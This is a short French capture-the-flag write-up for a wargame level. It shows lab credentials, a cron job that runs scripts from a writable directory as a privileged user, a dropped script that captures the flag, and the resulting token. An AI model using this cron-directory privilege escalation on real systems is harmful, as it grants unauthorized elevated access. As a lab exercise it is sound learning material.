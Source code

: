 
**LOGIN: level05**

**PASSWORD: level05**

 ----

Rien dans le *HOME* mais vu précedemment : 

```
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
```
cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ok, donc toutes les 2 minutes, les scirpts présent dans */opt/openarenaserv/** sont exec. On a les droits d'écriture dedans. 

```
vim /otp/openarenaserv/exploit.sh

getflag >/tmp/flag.txt
chmod +r /tmp/flag.txt
```

On fait un café, puis on revient 2 minutes plus tard. 

```
cat /tmp/flag.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

**TOKEN: viuaaale9huek52boumoomioc**




